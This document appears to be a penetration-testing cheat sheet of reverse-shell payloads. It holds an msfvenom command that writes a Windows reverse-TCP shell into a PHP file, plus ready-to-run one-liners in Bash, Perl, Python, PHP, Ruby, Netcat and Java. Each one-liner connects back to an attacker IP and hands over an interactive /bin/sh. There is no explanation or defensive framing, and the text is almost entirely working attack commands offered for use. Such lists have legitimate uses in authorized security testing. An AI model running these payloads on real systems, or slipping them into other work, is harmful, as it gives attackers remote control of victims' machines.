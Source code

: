 Can create more shells here: https://www.revshells.com/

### msfvenom

> sudo msfvenom -p windows/x64/shell/shell_reverse_tcp LHOST=10.10.15.73 LPORT=4444 -f php > /home/kali/msfshelly.php

### Bash 

```
bash -i >& /dev/tcp/10.11.0.32/1234 0>&1
```

### Perl
```
perl -e 'use Socket;$i="10.11.0.32";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.0.32",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP

```
php -r '$sock=fsockopen("10.11.0.32",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Ruby

```
ruby -rsocket -e'f=TCPSocket.open("10.11.0.32",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcat

```
nc -e /bin/sh 10.11.0.32 1234
```

or if you have a different version installed:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.32 1234 >/tmp/f
```

### Java

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.11.0.32/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
